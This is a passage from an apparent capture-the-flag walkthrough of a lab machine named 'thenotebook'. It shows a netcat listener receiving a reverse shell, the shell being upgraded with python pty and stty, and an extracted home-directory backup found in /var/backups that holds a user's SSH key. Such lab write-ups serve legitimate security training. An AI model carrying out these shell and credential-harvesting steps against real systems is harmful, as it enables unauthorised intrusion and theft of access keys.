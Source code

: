 [![burp_revshell](/img/thenotebook/burp_revshell.png)](/img/thenotebook/burp_revshell.png)

After sending the request we get a shell back on our listener which we upgrade with python and fix the terminal size.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.170.242.
Ncat: Connection from 10.129.170.242:33486.
bash: cannot set terminal process group (1228): Inappropriate ioctl for device
bash: no job control in this shell
www-data@thenotebook:~/html$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@thenotebook:~/html$ export TERM=xterm
export TERM=xterm
www-data@thenotebook:~/html$ ^Z
[1]+  Stopped                 nc -lnvp 7575
$ stty raw -echo;fg
nc -lnvp 7575

www-data@thenotebook:~/html$
www-data@thenotebook:~/html$ stty rows 55 cols 236
```

## Backup

Backtracking to the earlier found note, checking the `/var/backups` directory we see a non default `home.tar.gz` archive.

```
www-data@thenotebook:/var/backups$ ls
apt.extended_states.0  apt.extended_states.1.gz  apt.extended_states.2.gz  apt.extended_states.3.gz  home.tar.gz
```

Extracting this it is indeed a backup of the home directory of a user, which even featuers his private ssh key.

```
www-data@thenotebook:/var/backups$ cp home.tar.gz /tmp/
www-data@thenotebook:/var/backups$ cd /tmp/
www-data@thenotebook:/tmp$ tar -xvf home.tar.gz 
home/
home/noah/
home/noah/.bash_logout
home/noah/.cache/
home/noah/.cache/motd.legal-displayed
home/noah/.gnupg/
home/noah/.gnupg/private-keys-v1.d/
home/noah/.bashrc
home/noah/.profile
```